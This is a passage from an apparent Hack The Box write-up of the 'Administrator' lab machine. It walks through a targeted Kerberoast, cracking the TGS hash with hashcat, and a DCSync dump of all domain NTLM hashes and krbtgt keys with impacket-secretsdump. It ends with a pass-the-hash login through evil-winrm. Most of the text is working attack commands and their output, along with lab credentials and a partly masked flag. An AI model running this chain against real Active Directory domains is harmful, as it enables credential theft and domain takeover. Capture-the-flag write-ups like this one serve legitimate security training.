5. **Cleanup the Service Principal Name:**
   - Remove the SPN with `Set-DomainObject`:
     ```powershell
     Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
     ```


In alternative this operation is performable in a easier way through [Kerberoast](https://github.com/ShutdownRepo/targetedKerberoast):



```shell
┌──(targetedKerberoast-PLNnu4yz)─(kali㉿kali)-[~/HTB/Administrator/targetedKerberoast]
└─$ python3 targetedKerberoast.py -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$5a4d28a476b4656432ecdb37671cfed3$8e94e930833c4901b8ede4acb176e1e95060d7ee357e7307429e52f71004e6c2cd2c394c9adc2cef16939914ffbe77020879849b20fa99c9c6047bed4d4a2b9fb88f5dce1c28afe2953fd70432f41961fbec3cad41455fdbf6d772c0df91779a7e6135ac1bbb37808403674cade95546ac8e1dbc102ded1e5848c84e77146dc6618b07b14b5d9735d0e7cc45fe177b41d5fd06c7b04f5ee6a064e39323cf1dd673558347506fe6d5eea84ae6cc96b38de82de08cab319fd85f386d1d1d96c813f95c6ae3768b43e918f71336b44e03452b2679b1ca9341b30b62f342a08d7b934e96bdbc24871704e2104da0b24ca6bcaacf284ba635525f51d062e4eba017cb2333634558129070e25c4a169f8cd2e349c4696cce541b5aa0af56ec1ac36f9013b6496b2ae7756f437502450d0eb906ce6e2e960dd014cf19f8f04d69f22069e21e200d0900b4fc56577dbec299a31987ba1a61b6751cfb2a1e32d2439d9f2f075debb1e5b600d8af67a0f9603483c5b6fb9682c8314a4ea63f5cb55dd904c527005adfbc9bc6db2c1f1cd3cc0aeca7731db371e9be45900eb51162337ec218fc3296c88bf6a1f56887103c24bfb33509fa94575f2ce3cffb73ddb4cdc4c9216142f8ee77187cbbe84efab4d8d882e965fed0a21aa3f8060f5f11d547123cb69f8488bb7630bb4ad4652f4bd0f200ad3872c8bca2dbec880470a58e545c8ffb041b7839dc49df10e23a28cea96a9761e39e6f343a1f5e9faf547e10f936e1af4dd82beec0bacddc736959a480cc93cec3ff61dd69a4e80b1f6637ffab82774692c6393000e99e7c84841263a84c842f5e51c725d12dab82a6e836872ad435f762d5c462045fd1c6eeebc150af95d87f87530cc545f4f40f7594d7448e00977ba9a04f9ac6329d2c05b334de574cd56a5988fc53d644870214b98d740d13f8c13eb2972840a7c908d4cea13535ce2787f9ceb9c6201d75125c076e14d4f013fcfdb0d07a0af614770e467eb30d09b97be6a52fedccbc9157eb51dd33fe423376606ac0ab856d439bd24009e97e8f0ac09fff4f62d589106c3f211bd903a9f025b1127ee3eb6325d54551ee4f94ec1294b44a2810cefa7c2360ba0028eb0736edefbaec82f15986974957af0101410f5a33138c6a6cf5bba694b463377470156a5c9cb49daded800a6aa0d61fa60658c8a64cd3ec1d026c3646831818daa426a316eb77b5d8497adc8c09b74989ff45990c77abe605f607617e7431cb593171d68094add4f46b10f70fe4398877e1d581b3d7f5caa305b20b1088aecd3469a5a6439954077e2a7f5169f2508bfdfa9ab7924e85896708c999a4ec06ce2d811fd3b4350bcde0d2c0257bb5889a6c75cf206ab594022e257cf4dc51ccb5b0a33600e7cdae0179f94af1b132d0b4e7f75b9dba6c7dd42203c2f45820061c204d4ac090f9d03b5c975b90
```

From hashcat we retrieved that ethan's password is **limpbizkit**:

```shell
hashcat (v6.2.6) starting in autodetect mode  
  
Dictionary cache hit:  
* Filename..: /usr/share/wordlists/rockyou.txt  
* Passwords.: 14344385  
* Bytes.....: 139921507  
* Keyspace..: 14344385  
  
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$....:limpbizkit  
                                                            
Session..........: hashcat  
Status...........: Cracked  
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)  
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....b41be3  
Time.Started.....: Fri Nov 22 23:27:47 2024 (0 secs)  
Time.Estimated...: Fri Nov 22 23:27:47 2024 (0 secs)  
Kernel.Feature...: Pure Kernel  
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)  
Guess.Queue......: 1/1 (100.00%)  
Speed.#1.........:   870.9 kH/s (1.17ms) @ Accel:512 Loops:1 Thr:1 Vec:8  
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)  
Progress.........: 6144/14344385 (0.04%)  
Rejected.........: 0/6144 (0.00%)  
Restore.Point....: 4608/14344385 (0.03%)  
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1  
Candidate.Engine.: Device Generator
```

Go back again on bloodhound and check the status of ethan:



**DCSync** permissions is abusable, consult this post [DCSync Attack](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credential-dumping/dcsync/dcsync-attack) , so let's try with [Impacket-SecretsDump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/) :

```shell
┌──(kali㉿kali)-[~/HTB/Administrator/targetedKerberoast]
└─$ impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:7bbaa07b15a7a7695e673f201df89dcf:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
-----------------------------------
[*] Cleaning up... 

```



Use Administrator's to login trough evil-winrm:

```shell
evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```



```shell
rootflag:233992c6cab2f94************
```
